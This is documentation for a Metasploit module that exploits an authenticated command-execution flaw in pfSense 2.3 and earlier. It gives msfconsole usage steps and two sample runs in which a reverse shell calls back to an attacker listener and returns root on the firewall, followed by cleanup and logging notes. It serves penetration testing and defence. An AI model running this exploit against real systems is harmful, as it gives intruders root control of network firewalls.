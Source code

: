 ## Description

  This module exploits a vulnerability in pfSense version 2.3 and before which allows an authenticated user to execute arbitrary operating system commands 
  as root.

  This module has been tested successfully on version 2.3-RELEASE, and 2.2.6.


## Vulnerable Application

  This module has been tested successfully on version CE 2.3 amd64, and 2.2.6 amd64.

  Installer:

  * [pfSense CE 2.3](https://nyifiles.pfsense.org/mirror/downloads/old/pfSense-CE-2.3-RELEASE-amd64.iso.gz)


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/http/pfsense_group_member_exec`
  3. Do: `set rhost [IP]`
  4. Do: `set username [username]`
  5. Do: `set password [password]`
  6. Do: `exploit`
  7. You should get a session


## Sample Output

### 2.3-Release amd64

```
[*] Processing pfsense.rc for ERB directives.
resource (pfsense.rc)> use exploit/unix/http/pfsense_group_member_exec
resource (pfsense.rc)> set rhost 2.2.2.2
rhost => 2.2.2.2
resource (pfsense.rc)> set verbose true
verbose => true
resource (pfsense.rc)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (pfsense.rc)> check
[*] 2.2.2.2:443 The target service is running, but could not be validated.
resource (pfsense.rc)> exploit
[*] Started reverse double SSL handler on 1.1.1.1:4444 
[*] CSRF Token for login: sid:a11be2ee5849522898e2c1ff23739b35c76435bf,1510545358;ip:d70924f708189287bdee1e08d7fa83758a0e1f68,1510545358
[*] Successful Authentication
[*] pfSense Version Detected: 2.3-RELEASE
[+] Login Successful
[*] CSRF Token for group creation: sid:823a6f854ad1bae307c2959e95ccc98a8d72f2c1,1510545361
[*] Manual removal of group aJPEfJLDKT is required.
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 5ER6rqZOjOSGjRml;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "5ER6rqZOjOSGjRml\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:25824) at 2017-11-19 08:15:00 -0500

whoami
root
uname -a
FreeBSD . 10.3-RELEASE FreeBSD 10.3-RELEASE #6 05adf0a(RELENG_2_3_0): Mon Apr 11 18:52:07 CDT 2016     root@ce23-amd64-builder:/builder/pfsense-230/tmp/obj/builder/pfsense-230/tmp/FreeBSD-src/sys/pfSense  amd64
```
### 2.2.6 amd64

```
[*] Processing pfsense.rc for ERB directives.
resource (pfsense.rc)> use exploit/unix/http/pfsense_group_member_exec
resource (pfsense.rc)> set rhost 3.3.3.3
rhost => 3.3.3.3
resource (pfsense.rc)> set verbose true
verbose => true
resource (pfsense.rc)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (pfsense.rc)> check
[*] 3.3.3.3:443 The target is not exploitable.
resource (pfsense.rc)> exploit
[*] Started reverse double SSL handler on 1.1.1.1:4444 
[*] CSRF Token for login: sid:bb80526160efcf79d8660d1a31f6bf88e154b38e,1511091712;ip:42d05b73fc9b2d31c54333a60fd308dfbd4da97a,1511091712
[*] Successful Authentication
[*] pfSense Version Detected: 2.2.6-RELEASE
[+] Login Successful
[*] CSRF Token for group creation: sid:d49a6dc5b7e98c92a7772c605af3586a1f3adc75,1511091715
[*] Manual removal of group okUPTvzysL is required.
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 7hKg6oD9DkwXYRtt;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "7hKg6oD9DkwXYRtt\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (1.1.1.1:4444 -> 3.3.3.3:34403) at 2017-11-19 06:42:00 -0500

whoami
root
uname -a
FreeBSD pfSense.localdomain 10.1-RELEASE-p25 FreeBSD 10.1-RELEASE-p25 #0 c39b63e(releng/10.1)-dirty: Mon Dec 21 15:20:13 CST 2015     root@pfs22-amd64-builder:/usr/obj.RELENG_2_2.amd64/usr/pfSensesrc/src.RELENG_2_2/sys/pfSense_SMP.10  amd64
```

## Cleanup

Manual cleanup is required. The group name is printed during exploitation.

## Logging

Logging into the web interface writes a line to the system out on the console similar to: `pfSense php-fpm[72834]: /index.php: Succeessful login for user 'admin' from [ip]`

